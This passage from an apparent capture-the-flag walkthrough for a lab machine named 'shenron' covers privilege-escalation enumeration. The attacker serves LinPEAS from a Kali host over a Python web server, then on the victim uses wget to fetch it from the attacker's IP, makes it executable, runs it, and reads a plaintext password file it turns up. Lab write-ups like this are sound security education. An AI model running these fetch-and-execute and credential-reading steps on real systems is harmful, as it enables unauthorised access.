




5.1 Linpeas.sh
1. Installing LinPEAS.
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.
2. Download the file “linpea.sh” from https://github.com/kairosart/linpeas to your Kali Machine.
3. On your Kali Machine open a Python Web Sever.
$python3 -m http.server
Output:

4. On the victime machine run the following commands to get the Linpeas file.
shenron@shenron:~$cd /tmp
shenron@shenron:/tmp$wget http://192.168.12.10:8000/linpeas.sh
shenron@shenron:/tmp$chmod +x linpeas.sh
shenron@shenron:/tmp$wget http://192.168.12.10:8000/linpeas.sh
shenron@shenron:/tmp$chmod +x linpeas.sh
Output:

5. Run “linpeas.sh”.
shenron@shenron:/tmp$./linpeas.sh | tee output
If you look in the section “══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)” you'll find a “password.txt” file.
Output:

6. Show the “/var/opt/password.txt” file.
shenron@shenron:/tmp$cat /var/opt/password.txt
You'll shenron's password.
Output:
